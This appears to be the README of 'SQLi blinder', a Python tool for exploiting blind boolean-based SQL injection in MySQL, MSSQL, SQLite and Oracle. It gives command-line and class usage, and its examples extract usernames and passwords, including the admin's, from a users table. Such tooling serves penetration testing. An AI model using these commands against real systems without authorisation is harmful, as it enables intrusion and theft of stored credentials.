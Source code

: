 # SQLi blinder

Framework for blind boolean-based sql injections explotation. Use it if sqlmap do shit. 

Support:
- MySQL
- MSSQL
- SQLite
- Oracle

## Usage

You could use sqlib.py console utility or do your own script by importing `sqli_blinder.SQLiBlinder`, but both cases requires you to create your own `request_func`

### Prepare request_func

The `request_func` must paste single input param to your SQL injection and issue request.
It must return `True` for input param `1=1` and `False` for input param `1=0`.

It's OK to throw on unexpected behavior.

Example presented in `sqlib.py`.

Check your `request_func` with:

```python
SQLiBlinder(request_func,dbms).check()
```

If you want to use sqlib.py - replace `request_func` with your own.

### Run sqlib.py

```
usage: sqlib.py [-h] [-t TABLE] [-c COLUMN] [-w WHERE] [-i INDEX]
                [--threads THREADS] --dbms {mysql,mssql,sqlite,oracle}
                {check,count,one,get}

positional arguments:
  {check,count,one,get}
                        mode - one of ['check','count','one','get']

optional arguments:
  -h, --help            show this help message and exit
  -t TABLE, --table TABLE
                        table nmae
  -c COLUMN, --column COLUMN
                        column names. For get mode could by comma separated array of columns
  -w WHERE, --where WHERE
                        where clause
  -i INDEX, --index INDEX
                        index of row
  --threads THREADS     number of threads
  --dbms {mysql,mssql,sqlite,oracle} DBMS
```

Examples:

`python sqlib.py count -t sqlite_master --dbms sqlite` - get count of rows in `sqlite_master` table

`python sqlib.py count -t users --dbms sqlite --where "username='admin'"` - get number of rows in `sqlite_master` table

`python sqlib.py one -t users -c password -i 1 --dbms sqlite` - get value of `password` column in `users` table with index `1`

`python sqlib.py get -t users -c username,password --dbms sqlite` - get all `username` and `password` from `users` table

### SQLiBlinder class

There is four intended public methods:

- `check()` - check provided `request_func` with `1=1` and `1=0` payloads

- `get_count(table_name,where=None)` - get count of rows in `table` with provided `where` clause

- `get_string(table,column,index,where=None)` - get value of `column` in `table` with index=`index`. `where` is optional

- `get(columns,table_name,where=None)` - get all columns in `columns` from `table` where `where`

examples:

```
sqlib = SQLiBlinder(request_func,'sqlite',multithreaded=True,threads=16)
sqlib.check() # True
sqlib.get_count('sqlite_master') # number of rows in sqlite_master
sqlib.get_string('sqlite_master','sql',1,) # code of first table
sqlib.get(['username','password'],'users') # all usernames and passwords
sqlib.get(['username','password'],'users',where="username='admin'") # admins username and password
```